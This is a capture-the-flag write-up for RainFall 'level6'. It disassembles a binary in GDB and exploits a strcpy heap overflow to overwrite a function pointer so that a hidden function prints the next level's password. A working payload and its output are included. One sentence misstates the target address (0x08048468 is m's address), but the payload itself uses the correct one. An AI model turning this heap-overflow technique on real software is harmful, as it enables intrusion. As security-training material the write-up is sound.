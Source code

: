 # level6

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We take a look at the existing functions inside the binary.

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>       ; str = malloc(64)
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>       ; fptr = malloc(4)
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>       ; strcpy(str, av[1])
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax                          ; call eax where eax point to <m>
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1    ; 0x80485d1 = "Nope"
   0x08048475 <+13>:    call   0x8048360 <puts@plt>         ; puts("Nope")
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0    ; 0x80485b0 = "/bin/cat /home/user/level7/.pass"
   0x08048461 <+13>:    call   0x8048370 <system@plt>       ; system("/bin/cat /home/user/level7/.pass")
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

After analysing the differents functions we understand that we need to use the `call eax` instruction at `main<+84>` to make it call the hidden function `n` which will display the `.pass` file.

Since `malloc` will allocate 64 bytes for the string, then 4 more for the address of the function `m` (function pointer), theses two memory spaces will be contiguous.

The use of `strcpy`, which does not check the source string length, to write inside the address returned by the first `malloc`, will allow us to perform a buffer overflow attack on the heap to overwrite the address stored inside the function pointer (`m` address) with the address of `n`.

## Exploit

The argument we send must be long enough to fill in the 64 bytes allocated by the first `malloc` allocation plus the 8 bytes of block metadata. The 4th next bytes, corresponding to the second `malloc` allocation, must be replaced with the address of `n` function (0x08048468).

```console
level6@RainFall:~$ ./level6 `python -c 'print "A"*72 + "\x54\x84\x04\x08"'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```